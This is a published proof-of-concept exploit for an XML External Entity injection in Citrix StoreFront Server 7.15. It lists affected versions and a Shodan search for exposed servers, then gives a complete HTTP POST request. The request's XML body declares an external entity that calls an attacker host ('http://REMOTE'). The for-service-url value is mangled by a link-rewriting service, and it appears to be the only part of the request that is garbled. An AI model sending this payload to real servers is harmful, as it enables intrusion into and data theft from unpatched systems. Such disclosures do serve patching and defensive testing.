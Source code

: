 # Exploit Title: Citrix StoreFront Server 7.15 - XML External Entity Injection
# Date: 2019-08-28
# Exploit Author: Vahagn Vardanya
# Vendor Homepage:https://www.citrix.com/downloads/storefront/
# Software Link: https://support.citrix.com/article/CTX251988
# Version:
# Citrix StoreFront Server  earlier than 1903
# Citrix StoreFront Server 7.15 LTSR earlier than CU4 (3.12.4000)
# Citrix StoreFront Server 7.6 LTSR earlier than CU8 (3.0.8000)#
# Tested on: Windows
# Shodan query https://www.shodan.io/search?query=%2FCitrix%2FStoreWeb

# PoC

POST /Citrix/StoreAuth/ExplicitForms/Start HTTP/1.1
Content-Type: application/vnd.citrix.requesttoken+xml
Accept: application/vnd.citrix.requesttokenresponse+xml, application/vnd.
citrix.authenticateresponse-1+xml
Accept-Language:ru,en-US;q=0.9,en;q=0.8,fr;q=0.7,hy;q=0.6,de;q=0.5,es;q=0.4,nb;q=0.3,nl;q=0.2,fi;q=0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/72.0.3626.109 Safari/537.36
X-Forwarded-For: 192.168.204.1
X-Citrix-Agent: crm.
X-Citrix-AM-CredentialTypes: none, username, domain, password, newpassword,passcode, savecredentials, textcredential, webview, webview
X-Citrix-AM-LabelTypes: none, plain, heading, information, warning, error,confirmation, image
X-Citrix-IsUsingHTTPS: No
Host: 192.168.204.131
Content-Length: 331
Expect: 100-continue

<?xml version="1.0" encoding="utf-8" standalone='no'?><!DOCTYPE
requesttoken [<!ENTITY % xxe SYSTEM "http://REMOTE">%xxe; ]><requesttoken
xmlns="http://citrix.com/delivery-services/1-0/auth/requesttoken
"><for-service>a</for-service><for-service-url>http://secure-web.cisco.com/
<http://secure-web.cisco.com/1ijL9Cycthe9FsmytQkHCl1Xg9pMufEcuz0PmzFHVwkbFjSep42bW3GRBkLUxePJTdOcYeHl5hlVi95aQc-F0KUuqpBKFdx4EXJ_ppx3MY000cALA2hGugGjMX3hbmvhtPOTba7B4LnAcpuyFDLHiSlv8xyu_CzN0mhekRY51L34p4Wy9oMguR9Bj8YWAm6KxixMl1DiaZ88h4FVR0vKzHdtedNF63xO329dQAtQuVWiipK_rt4rnVWKmorTTrbp-bsdV7zUBsqjON-MZYpzagQ/http%3A%2F%2F192.168.204.146%2FCitrix%2Fstore_nameAuth%2Fauth%2Fv1%2Ftoken></for-service-url><reqtokentemplate
/><requested-lifetime>0.08:00:00</requested-lifetime></requesttoken>
